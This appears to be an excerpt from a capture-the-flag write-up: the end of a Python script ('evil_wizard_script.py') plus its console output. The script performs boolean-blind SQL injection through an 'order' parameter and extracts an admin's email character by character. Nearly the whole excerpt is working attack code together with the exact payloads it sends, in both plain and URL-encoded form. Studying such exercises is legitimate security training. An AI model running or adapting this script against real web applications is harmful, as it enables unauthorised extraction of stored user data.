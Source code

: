 ```python title="evil_wizard_script.py"

    response = requests.get(full_url, cookies=cookies)

    if "<table border=1><tr><th>id</th><th>email</th><th>score</th><tr><td>admin</td>" in response.text:
      password += char
      print()
      print(f"[+] Payload: ?order={payload}")
      print(f"[+] Payload (URL encoded): ?order={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted email: {password}")
print(f"[!] Final payload: ?email={password}")
```

```
$ python .\evil_wizard_script.py

[!] Payload: ?order=if(id='admin' and length(email)=30, 1, 2)
[!] Payload (URL encoded): ?order=if%28id%3D%27admin%27+and+length%28email%29%3D30%2C+1%2C+2%29
[!] Email length: 30
_@.0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 1, 1))='97', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+1%2C+1%29%29%3D%2797%27%2C+1%2C+2%29
[+] Character at index 1: a

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 2, 1))='97', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+2%2C+1%29%29%3D%2797%27%2C+1%2C+2%29
[+] Character at index 2: a

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 3, 1))='115', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+3%2C+1%29%29%3D%27115%27%2C+1%2C+2%29
[+] Character at index 3: s

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 4, 1))='117', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+4%2C+1%29%29%3D%27117%27%2C+1%2C+2%29
[+] Character at index 4: u

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 5, 1))='112', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+5%2C+1%29%29%3D%27112%27%2C+1%2C+2%29
[+] Character at index 5: p

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 6, 1))='51', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+6%2C+1%29%29%3D%2751%27%2C+1%2C+2%29
[+] Character at index 6: 3

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 7, 1))='114', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+7%2C+1%29%29%3D%27114%27%2C+1%2C+2%29
[+] Character at index 7: r

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 8, 1))='95', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+8%2C+1%29%29%3D%2795%27%2C+1%2C+2%29
[+] Character at index 8: _
```